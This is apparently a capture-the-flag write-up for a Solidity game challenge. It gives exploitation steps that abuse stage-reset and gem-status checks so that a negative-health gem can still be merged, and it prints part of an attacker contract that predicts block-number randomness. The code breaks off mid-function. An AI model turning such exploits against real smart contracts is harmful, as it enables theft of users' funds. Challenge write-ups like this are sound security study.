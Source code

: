 ### Exploitation

The exploitation steps are as follows:

1. Create `gem0` with a favorable attack value and win stage 0 with it
2. Create `gem1` with a favorable health and draw stage 1 to reset stage to 0 without losing any health
3. Intentionally lose stage 0 with `gem1` to make its status inactive
4. Win stage 0 with `gem0`
5. In stage 1, `gem0`'s health can go negative with only one attack. During the `master.decide_continue_battle()`, `gem0` is still active and can pass the status check in `merge_gems()` along with `gem1`. After merging, `gem0` has enough health to win stage 1 and 2

```solidity
contract Master {

    int256 constant ACTIVE_HEALTH_THRESHOLD = 64;

    ILandOfTheLustrous land;
    uint8[] actions;
    bool canMerge;

    constructor(ILandOfTheLustrous _land) {
        land = _land;
        _land.register_master();
    }

    function first() external payable {
        int256 random = int256(uint256(keccak256(abi.encode(block.number))));
        if (random < 0) {
            random = -random;
        }
        require((random / 256) % 256 >= 10);
        land.create_gem{value: 1 ether}();
        land.assign_gem(0);
    }

    function second() external {
        int256 random = int256(uint256(keccak256(abi.encode(block.number))));
        if (random < 0) {
            random = -random;
        }
        int256 health = random % 256;
        if (health < ACTIVE_HEALTH_THRESHOLD) {
            health = ACTIVE_HEALTH_THRESHOLD;
        }
        int256 hardness = (random / (256 * 256)) % 256;
        while (health >= ACTIVE_HEALTH_THRESHOLD) {
            health -= 10_000 / hardness;
        }
        require(health >= 0);
        land.create_gem{value: 1 ether}();
        land.assign_gem(1);
    }

    function third() external {
        land.assign_gem(0);
        canMerge = true;
    }

    function set_actions(uint8[] memory lunarian_actions, uint256 start, uint8 draw) external {
        uint256 len = lunarian_actions.length;
        uint8[] memory _actions = new uint8[](len);
        for (uint256 i; i < start; i++) {
```
